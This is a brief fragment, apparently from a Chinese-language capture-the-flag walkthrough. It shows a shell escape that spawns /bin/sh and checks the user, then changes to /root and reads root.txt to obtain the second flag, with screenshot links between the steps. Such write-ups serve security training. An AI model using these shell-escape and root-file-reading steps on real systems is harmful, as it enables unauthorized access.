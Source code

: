 ```
system"/bin/sh"
whoami
```

![image-20250324092922339](./assets/image-20250324092922339.png)



### 得到第二个flag

```
cd /root
ls
cat root.txt
```

![image-20250324092957896](./assets/image-20250324092957896.png)